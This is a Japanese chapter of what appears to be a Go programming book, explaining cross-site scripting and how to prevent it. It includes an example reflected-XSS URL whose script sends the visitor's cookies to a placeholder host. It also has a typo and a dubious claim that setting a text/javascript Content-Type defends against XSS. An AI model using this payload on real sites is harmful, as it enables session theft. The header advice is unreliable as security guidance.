 # 9.3 XSS攻撃の回避
インターネット技術の発展に伴って、現在のWebアプリケーションはどれも大量の動的なコンテンツを含ませることでユーザビリティを高めています。いわゆる動的なコンテンツとは、アプリケーション・プログラムがユーザの環境とユーザのリクエストに従って対応するコンテンツを出力することをいいます。動的なホームページは"クロスサイトスクリプティング攻撃（Cross Site Scripting, セキュリティ専門家は通常これを省略してXSSと呼びます）"の脅威を受ける可能性があります。性的なホームページは完全にこの影響を受けません。

## XSSとは何か
XSS攻撃：クロスサイトスクリプティング(Cross-Site Scripting)。カスケーディングスタイルシート(Cascading Style Sheets, CSS)の省略と混同しないようにクロスサイトスクリプティングはXSSと省略されます。XSSはよく見かけるセキュリティホールの一種です。これは攻撃者が悪意のあるコードを他のユーザが使用しているページに埋め込むことを許してしまいます。多くの攻撃(一般には攻撃者と被害者のみに影響します)とは異なりXSSは第三者に及びます。すなわち、攻撃者、クライアントとWebアプリケーションです。XSSの攻撃目標はクライアントに保存されたcookieの奪取またはクライアントの身分を識別する慎重に扱うべき情報を使う他のページです。一旦合法的なユーザの情報が取得されると、攻撃者は合法的なユーザを装ってページに対してやりとりを行うことができるようになります。

XSSは通常２つに大別することができます：ひとつは保存型XSSで、主にユーザにデータを入力させ、他にこのページを閲覧しているユーザが閲覧できる場所で出くわします。掲示板、コメント欄、ブログや各種フォーム等です。アプリケーションプログラムはデータベースからデータを検索し、画面に表示させます。攻撃者は関連する画面で悪意のあるスクリプトデータを入力したあと、ユーザがこのページを閲覧したときに攻撃をうけます。このプロセスを簡単にご説明すると：悪意あるユーザのHtmlがWebアプリケーションに入力->データベースに入る->Webアプリケーション->ユーザのブラウザ。もう一つはリフレクション型XSSです。主な方法はスクリプトコードをURLアドレスのリクエストパラメータに追加することです。リクエストパラメータがプログラムに入ると、ページに直接出力され、ユーザがこのような悪意あるリンクをクリックすることで攻撃を受けます。

現在のXSSの主な手段と目的は以下のとおり：

- cookieを盗み、慎重に扱うべき情報を取得する。
- Flashを埋め込むことで、crossdomainの権限設定により高い権限を取得する。またはJava等を利用して似たような操作を行う。
- iframe、frame、XMLHttpRequestまたは上のFlashといった方法を利用して、（被害者の）ユーザの身分にある管理操作を実行する。またはマイクロブログを送信したり、フレンドを追加したり、プライベートなメールを送信したりといった通常の操作を実行する。少し前に新浪微博はXSSに遭遇しました。
- 攻撃可能なゾーンを利用してその他のゾーンの信任の機能を受ける。信任を受けたソースの身分で通常は許されていない操作をリクエストする。例えば不当な投票活動等。
- PVが非常に大きいページでのXSSは小型のページを攻撃し、DDoS攻撃の効果を実現することができる。

## XSSの原理
Webアプリケーションはユーザが送信したリクエストのデータに対し十分な検査およびフィルタリングを行なっていないと、ユーザが送信するデータにHTMLコードを許してしまい（主に">"、"<"）、エスケープされていない悪意あるコードを第三者であるユーザのブラウザ上で解釈/実行させてしまいます。これがXSSセキュリティホールを生み出す原因となっています。

以下ではリフレクション型XSSを例にXSSのプロセスをご説明します：パラメータによってユーザの名前を出力するページがあるとします。例えばurl：`http://127.0.0.1/?name=astaxie`にアクセスすると、ブラウザでは以下のような情報を出力します：

	hello astaxie

もし我々が`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`のようなurlを送信した場合、ブラウザがダイアログを表示することに気づくでしょう。これはつまり、ページにXSSセキュリティホールが存在することを示しています。では悪意あるユーザはどのようにしてCookieを盗み出すのでしょうか？上と同じように、`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`というurlでは、現在のcookieが指定されたページ、`www.xxx.com`に送信されます。このようなURLは一目見て問題があるとわかると思われるかもしれません。いったい誰がクリックするのかと。そうです。このようなURLは人に疑われがちです。しかしURL短縮サービスを使ってこれを短縮した場合、あなたは気づくことができるでしょうか？攻撃者は短縮されたurlをなんらかの経路で広め、真相を知らないユーザが一旦このようなurlをクリックすることで、対応するcookieデータがあらかじめ設定されたページに送信されてしまいます。このようにユーザのcookie情報を盗んだあとは、Websleuthといったツールを使うことでこのユーザのアカウントを盗み出すことができるか検査されてしまいます。

XSSに関するより詳しい分析は"[新浪微博XSS事件分析](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)"と呼ばれる記事を参考にしてください。

## どのようにしてXSSを予防するか
答えは簡単です。ユーザのいかなる入力も決して信用せず、入力に含まれるすべての特殊文字をフィルタリングするのです。このようにすれば大部分のXSS攻撃を根絶することができます。

現在XSSの防御では主に以下のいくつかの方法があります：

- 特殊文字のフィルタリング

	XSSを避ける方法の一つは主にユーザが提供するコンテンツに対してフィルタリングを行うことです。Go言語ではHTMLのフィルタリング関数を提供しています：

	text/templateパッケージのHTMLEscapeString、JSEscapeStringといった関数です。

- HTTPヘッダに指定した型を使用する

	`w.Header().Set("Content-Type","text/javascript")`

	このようにすることでブラウザにhtmlを出力させずjavascriptコードを解釈させることができます。


## まとめ
XSSセキュリティホールはとても危険なものです。Webアプリケーションを開発している時、必ずデータをフィルタリングするよう肝に銘じておいてください。特にクライアントに出力する前に。これは現在のところXSSを防止する手段として有効です。

## links
   * [目次](<preface.md>)
   * 前へ: [入力フィルタリングの確保](<09.2.md>)
   * 次へ: [SQLインジェクションの回避](<09.4.md>)

